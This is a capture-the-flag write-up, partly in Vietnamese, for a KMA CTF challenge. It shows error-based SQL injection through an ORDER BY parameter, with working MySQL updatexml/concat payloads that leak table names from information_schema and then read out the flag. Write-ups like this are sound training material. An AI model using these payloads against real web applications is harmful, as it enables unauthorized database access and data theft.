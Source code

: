 # KMA CTF - Try SQL Map

**hints**: The length of flag table name > 32 characters

## PHÂN TÍCH
Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY: `http://try-sqlmap.ctf.actvn.edu.vn/?order=id`

Câu truy vấn có thể sẽ như sau:

```
SELECT column_name from table_name order by $_GET[order]
```

`Quick sqlmap` --> sql injection `error based`!

**Payload**:
```
updatexml(0,concat(0xa,(select table_name from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
flahga123456789xxsxx012xxxxxxxx'
```

Because of the length, we use mid function in MySQL to cut the rest of flag that are not fully obtain.

```
updatexml(0,concat(0xa,(select mid(table_name,20,25) from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
x012xxxxxxxxx34567xx1'
```

Ok, merge it together: `flahga123456789xxsxx012xxxxxxxxx34567xx1`, we got the table name.

Same with column and flag using column_name from information_schema.tables --> select column_name from flahga123456789xxsxx012xxxxxxxxx34567xx1....

**flag**: `KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}`

**Góc than thở**:
```
Mình chỉ cặm cụi với extractvalue(), mặc dù nó không sai nhưng chỉ biết thay đổi main query mà không thay đổi cấu trúc syntax toàn câu lệnh. Mặc dù đây là error based nhưng không có nghĩa nó sẽ trả về error của error mà chỉ là kết quả lệnh đó, nếu không sẽ chỉ trả về NULL. Mình cần stick với challenge lâu hơn và thử tất cả, điều chỉnh tỉ mỉ từng query cho đến khi bế tắc thay vì nhảy cóc và 'cho rằng' nên không thử. 

Hàm extractvalue ở payload all the things nó dùng random() để gây lỗi, nhưng ta chỉ cần số 0 là có thể gây lỗi rồi trong khi random có thể  bị block hay raise error, phải try everything. Haiz!!
```
